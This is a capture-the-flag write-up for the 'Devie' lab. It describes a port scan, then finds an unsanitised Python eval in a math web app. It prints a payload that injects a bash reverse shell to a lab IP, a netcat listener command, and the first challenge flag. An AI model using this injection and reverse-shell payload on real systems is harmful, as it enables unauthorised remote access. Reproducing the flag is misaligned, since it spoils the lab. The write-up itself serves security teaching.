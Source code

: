 # Devie

A developer has asked you to do a vulnerability check on their system.

<p align="center">
  <img src={require("./assets/devie/devie.png").default} width="128" />
</p>

### Task 1 - What are the flags?

> What is the first flag?

THM{Car3ful_witH_3v@l}

> What is the second flag?

> What is the root flag?

### Writeup

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<p align="center">
  <img src={require("./assets/devie/nmap.png").default} />
</p>

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<p align="center">
  <img src={require("./assets/devie/website.png").default} />
</p>

In the footer of the page is possible to download the source code.

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<p align="center">
  <img src={require("./assets/devie/vuln.png").default} />
</p>

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/10.10.142.179/1337 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp 1337
```

<p align="center">
  <img src={require("./assets/devie/flag1.png").default} />
</p>
